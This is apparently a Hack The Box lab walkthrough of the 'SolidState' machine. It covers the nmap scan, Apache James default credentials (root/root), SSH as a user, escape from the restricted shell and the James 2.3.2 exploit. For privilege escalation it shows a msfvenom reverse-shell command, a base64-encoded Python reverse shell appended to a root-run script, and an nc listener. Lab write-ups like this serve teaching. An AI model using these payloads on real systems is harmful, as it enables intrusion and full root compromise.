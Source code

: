 ```yaml
---
layout: post
title: "HTB-SolidState"
categories: HTB-Walkthrough
---
```



![solidstate](/assets/img/solidstate/solidstate.png)

SolidState is another OSCP-like box from the HTB 'retired' archive.

<h4>Nmap</h4>

`nmap -sV -Pn 10.10.10.51 |tee -a solid.txt`

```

Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-28 17:07 EST
Warning: 10.10.10.51 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.10.51
Host is up (0.097s latency).
Not shown: 65469 closed ports, 60 filtered ports
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
25/tcp   open  smtp        JAMES smtpd 2.3.2
80/tcp   open  http        Apache httpd 2.4.25 ((Debian))
110/tcp  open  pop3        JAMES pop3d 2.3.2
119/tcp  open  nntp        JAMES nntpd (posting ok)
4555/tcp open  james-admin JAMES Remote Admin 2.3.2
Service Info: Host: solidstate; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.20 seconds

```

After googling 'exploit james 2.3.2' I hit upon a method...and possible [exploit](https://www.exploit-db.com/exploits/35513)
Reading the exploit, I find the default credentials for the James Remote Admin account.



<h4>Telnet James Remote Admin</h4>

First I use telnet to access James Remote Admin, with the default credentials root/root.


![james-admin](/assets/img/solidstate/solidstate-james-admin1.png)

Now to check each mailbox for loot.

![mailbox-loot](/assets/img/solidstate/solid-mailbox-loot.png)

![mailbox-loot2](/assets/img/solidstate/solid-mailbox-loot2.png)

![mailbox-loot3](/assets/img/solidstate/solid-mailbox-loot3.png)

<hr width="250" size="6">


This information, allows us to gain access to Mindy's user account.

`ssh mindy@10.10.10.51`


```

root@kali:~/HTB/retired/solidstate# ssh mindy@10.10.10.51
The authenticity of host '10.10.10.51 (10.10.10.51)' can't be established.
ECDSA key fingerprint is SHA256:njQxYC21MJdcSfcgKOpfTedDAXx50SYVGPCfChsGwI0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.51' (ECDSA) to the list of known hosts.
mindy@10.10.10.51's password: 
Linux solidstate 4.9.0-3-686-pae #1 SMP Debian 4.9.30-2+deb9u3 (2017-08-06) i686

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Aug 22 14:00:02 2017 from 192.168.11.142
mindy@solidstate:~$ ls
bin  user.txt
mindy@solidstate:~$ cat user.txt
91xxxxxxxxxxxxxxxxxxxxxxxxxxxx75
mindy@solidstate:~$ 

```

mindy has a very restricted shell.....so I try build up the available commands...

```

BASH_CMDS[ls]=/bin/ls
BASH_CMDS[uname]=/bin/uname
BASH_CMDS[nano]=/bin/nano
BASH_CMDS[cat]=/bin/cat

```

This works, but is incredibly laborious, we can get around this problem with the james.py 
exploit, which gives us a better shell.


```

#!/usr/bin/python
#
# Exploit Title: Apache James Server 2.3.2 Authenticated User Remote Command Execution
# Date: 16\10\2014
# Exploit Author: Jakub Palaczynski, Marcin Woloszyn, Maciej Grabiec
# Vendor Homepage: http://james.apache.org/server/
# Software Link: http://ftp.ps.pl/pub/apache/james/server/apache-james-2.3.2.zip
# Version: Apache James Server 2.3.2
# Tested on: Ubuntu, Debian
# Info: This exploit works on default installation of Apache James Server 2.3.2
# Info: Example paths that will automatically execute payload on some action: /etc/bash_completion.d , /etc/pm/config.d

```
We run the exploit, and get a better shell as mindy.



<h3>Privilege Escalation</h3>

found /opt/tmp.py

we cannot replace, but we can append to it...

```

msfvenom -p cmd/unix/reverse_python lhost=10.10.14.19 lport=443 -a cmd -e generic/none --platform unix

```

```

echo "exec('aW1wb3J0IHNvY2tldCAgICwgIHN1YnByb2Nlc3MgICAsICBvcyAgOyAgICAgICAgIGhvc3Q9IjEwLjEwLjE0LjE5IiAgOyAgICAgICAgIHBvcnQ9NDQzICA7ICAgICAgICAgcz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVUICAgLCAgc29ja2V0LlNPQ0tfU1RSRUFNKSAgOyAgICAgICAgIHMuY29ubmVjdCgoaG9zdCAgICwgIHBvcnQpKSAgOyAgICAgICAgIG9zLmR1cDIocy5maWxlbm8oKSAgICwgIDApICA7ICAgICAgICAgb3MuZHVwMihzLmZpbGVubygpICAgLCAgMSkgIDsgICAgICAgICBvcy5kdXAyKHMuZmlsZW5vKCkgICAsICAyKSAgOyAgICAgICAgIHA9c3VicHJvY2Vzcy5jYWxsKCIvYmluL2Jhc2giKQ=='.decode('base64'))" >> /opt/tmp.py

```


set listener ....
`nc -nlvp 443`

....and wait....


```

root@kali:~/HTB/retired/solidstate# nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.10.51] 48652
id
uid=0(root) gid=0(root) groups=0(root)
whoami
root
cat /root/root.txt
b4xxxxxxxxxxxxxxxxxxxxxxxxxxxxc9
hostname
solidstate


```

:)

